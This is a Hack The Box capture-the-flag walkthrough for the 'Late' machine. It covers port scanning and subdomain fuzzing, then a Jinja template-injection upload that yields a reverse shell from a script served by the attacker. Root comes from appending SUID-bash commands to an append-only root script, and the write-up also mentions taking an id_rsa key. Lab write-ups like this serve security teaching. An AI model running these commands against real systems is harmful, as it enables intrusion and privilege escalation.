# [Late](https://app.hackthebox.com/machines/late)

```bash
nmap -p- --min-rate 10000 10.10.11.156 -Pn
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.156 -Pn
```




From website enumeration, I see that for Contact there's `late.htb` domain name is used , let's add this domain into `/etc/hosts` file for resolving purposes.


Let's do `subdomain enumeration` for our target.

```bash
ffuf -u http://late.htb/ -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 9461
```



I found `images.late.htb` domain name, let's add this also into `/etc/hosts` file.


This web application is like that used for converting images to text.




By analyzing application, I see that there's `Jinja` template is used, if I upload image contains `SSTI` (Server-Side Template Injection) payload, it can work.

Let's add this below `payload` image.




I see the result,




Let's add image which contains reverse shell payload, it will go through like below way.

1.First, we need to create `bash` script that's reverse shell actually.




2.Next, we need to open python http server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.7 8080
```



3.Next, we need to submit below image into web application.




Hola!  I got reverse shell from port (1337).




Let's make interactive shell via below commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



user.txt




For privilege escalation, let's add `pspy64` into machine to gather information about background jobs.




There's script called `ssh-alert.sh`, let's read content of this file.




Despite that `svc_acc` user is owner of this script, however cannot do any **overwrite** to this file.






Let's look at `attribute` of this file via `lsattr` command.




There's `a` letter is used, it means we can only `append` something to this file.


Let's `append` our malicious shell command into here which is copying `/bin/bash` file and give to this `SUID` privilege

```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks" >> /usr/local/sbin/ssh-alert.sh
```




Let's see our `dr4ks` file which is copied `/bin/bash` file and execute this via `-p` option to get root shell.




Note: This script works only after successful login to `svc_acc` user, but we don't know password of this user, we can login into this target app by stealing `id_rsa` file of this user.



root.txt

